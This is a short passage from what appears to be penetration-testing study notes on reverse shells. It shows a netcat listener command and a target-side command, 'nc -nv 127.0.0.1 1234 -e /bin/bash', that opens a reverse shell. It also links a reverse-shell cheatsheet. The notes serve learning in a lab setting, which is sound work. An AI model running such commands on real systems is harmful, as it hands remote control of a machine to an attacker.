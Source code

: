![Reverse Shell - Win](.gitbook/assets/image-20230423225647628.png)

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Linux machine (localhost in this case)
nc -nv 127.0.0.1 1234 -e /bin/bash
```

![Reverse Shell - Linux](.gitbook/assets/image-20230423225954657.png)

#### Reverse Shell without Netcat

📌 [PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

- Examples of Reverse Shell with different code (bash, Python, Powershell, PHP, etc)
